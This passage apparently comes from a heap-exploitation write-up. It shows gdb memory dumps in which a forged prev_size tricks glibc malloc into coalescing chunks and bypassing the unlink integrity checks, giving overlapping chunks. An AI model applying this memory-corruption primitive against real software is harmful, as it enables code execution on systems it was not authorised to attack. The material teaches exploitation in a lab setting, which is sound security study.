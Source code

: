 ```
0x555555757100:	0x0000000000000000	0x0000000000000091 <-- chunk 0 (free)
0x555555757110:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
0x555555757120:	0x0000000000000000	0x0000000000000000
0x555555757130:	0x0000000000000000	0x0000000000000000
0x555555757140:	0x0000000000000000	0x0000000000000000
0x555555757150:	0x0000000000000000	0x0000000000000000
0x555555757160:	0x0000000000000000	0x0000000000000000
0x555555757170:	0x0000000000000000	0x0000000000000000
0x555555757180:	0x0000000000000000	0x0000000000000000
0x555555757190:	0x0000000000000090	0x0000000000000070 <-- chunk 1 (free)
0x5555557571a0:	0x0000000000000000	0x0000000000000000
0x5555557571b0:	0x0000000000000000	0x0000000000000000
0x5555557571c0:	0x0000000000000000	0x0000000000000000
0x5555557571d0:	0x0000000000000000	0x0000000000000000
0x5555557571e0:	0x0000000000000000	0x0000000000000000
0x5555557571f0:	0x0000000000000000	0x0000000000000000
0x555555757200:	0x0000000000000000	0x0000000000000071 <-- chunk 2 (in use)
0x555555757210:	0x0000000000000000	0x0000000000000000
0x555555757220:	0x0000000000000000	0x0000000000000000
0x555555757230:	0x0000000000000000	0x0000000000000000
0x555555757240:	0x0000000000000000	0x0000000000000000
0x555555757250:	0x0000000000000000	0x0000000000000000
0x555555757260:	0x0000000000000000	0x0000000000000000
0x555555757270:	0x0000000000000170	0x0000000000000090 <-- chunk 3 (in use & previous chunk at 0x555555757100)
```

We've edited `chunk 2` such that the `prev_size` field of `chunk 3` will fool it (once `chunk 3` is free'd) into thinking that the
previous chunk **isn't** in use and it's **0x170** bytes before. All that is left is to free `chunk 3`, `malloc` will coalesce `chunk 3` and `chunk 0` and the resulting consolidated chunk will be big enough to overlap with `chunk 1` which is free.

Both `unlink` checks are bypassed:

```c
if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");			      \
    FD = P->fd;								      \
    BK = P->bk;								      \
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))		      \
      malloc_printerr ("corrupted double-linked list");	
```

```python
free(3)
```

```
0x555555757100:	0x0000000000000000	0x0000000000000201 <-- chunk 0 (free)
0x555555757110:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
0x555555757120:	0x0000000000000000	0x0000000000000000
0x555555757130:	0x0000000000000000	0x0000000000000000
0x555555757140:	0x0000000000000000	0x0000000000000000
0x555555757150:	0x0000000000000000	0x0000000000000000
0x555555757160:	0x0000000000000000	0x0000000000000000
0x555555757170:	0x0000000000000000	0x0000000000000000
0x555555757180:	0x0000000000000000	0x0000000000000000
0x555555757190:	0x0000000000000090	0x0000000000000070 <-- chunk 1 (free)
0x5555557571a0:	0x0000000000000000	0x0000000000000000


(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
```
